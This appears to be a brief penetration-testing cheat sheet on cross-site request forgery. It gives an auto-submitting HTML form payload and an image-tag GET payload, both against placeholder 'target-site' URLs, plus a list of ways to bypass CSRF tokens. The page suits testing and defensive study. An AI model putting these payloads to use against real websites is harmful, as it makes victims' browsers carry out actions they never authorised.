 # CSRF


## Enumeration

Look for sensitive client requests/actions to server that do not appear to involve any CSRF preventative measures.


## Payloads

Need to craft a HTTP redirect to the action on the target server. E.g.:
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8

<html>
    <body>
        <form action="https://www.target-site.com/sensitive-action" method="POST">
            <input name=param1 value=paramValue1 />
            <input name=param2 value=paramValue2 />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

Alternatively for GET methods, try including an image or iframe:
```
<img src="https://www.target-website.com/sensitive-action?param1=value1&param2=value2" />
```
But this wouldn't need an external server to relay the requests, the URL can be fed directly to the victim in this case.

## Bypassing Tokens

Try:
- Switching from POST method to GET or another method.
- Omitting the entire CSRF token parameter to see if server ignores validation.
- Using a valid CSRF token that is generated from another account (in case server doesn't verify the token-session relationship accurateltely).
- 
